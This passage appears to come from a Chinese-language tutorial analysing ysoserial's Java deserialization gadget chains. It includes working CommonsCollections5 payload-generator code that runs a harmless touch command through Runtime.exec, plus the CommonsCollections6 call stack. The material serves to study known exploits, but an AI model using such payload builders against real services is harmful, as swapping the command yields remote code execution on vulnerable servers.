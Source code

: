 ```java
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[]{}}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[]{}}),
                new InvokerTransformer("exec", new Class[]{String[].class}, new Object[]{new String[]{"/bin/touch", "/dev/shm/asdasd_1"}}),
        };

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

        HashMap hashMap = new HashMap<String, String>();

        Map lazyMap = LazyMap.decorate(hashMap, chainedTransformer);
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "placeholder");

        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException("placeholder");
        Field field = badAttributeValueExpException.getClass().getDeclaredField("val");
        field.setAccessible(true);
        field.set(badAttributeValueExpException, tiedMapEntry);

        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("out.bin"));
        oos.writeObject(badAttributeValueExpException);
        oos.close();
    }
}
```

另外, 这一条链, 其实 3, 4 都能使用, 不过 ysoseiral 只在 exp 里面写了 3 的, 实际上只要将 import 的 xxx.collections.xxx 全改成 xxx.collections4.xxx, 然后将 `LazyMap.decorate` 改为 `LazyMap.LazyMap` 就能直接给 4 使用.

## CommonsCollections6

还是先看调用栈:
```
Gadget chain:
    java.io.ObjectInputStream.readObject()
        java.util.HashSet.readObject()
            java.util.HashMap.put()
            java.util.HashMap.hash()
                org.apache.commons.collections.keyvalue.TiedMapEntry.hashCode()
                org.apache.commons.collections.keyvalue.TiedMapEntry.getValue()
                    org.apache.commons.collections.map.LazyMap.get()
                        org.apache.commons.collections.functors.ChainedTransformer.transform()
                        org.apache.commons.collections.functors.InvokerTransformer.transform()
                        java.lang.reflect.Method.invoke()
                            java.lang.Runtime.exec()
```

这条与 CommonsCollections5 类似, 触发点由 BadAttributeValueExpException 改为 HashSet, 这里与 URLDNS 类似, 在反序列化时会重新计算对象的 hashCode, 而刚刚好 TiedMapEntry 的 hashCode 里面与 toString 一样也用到了 getValue.
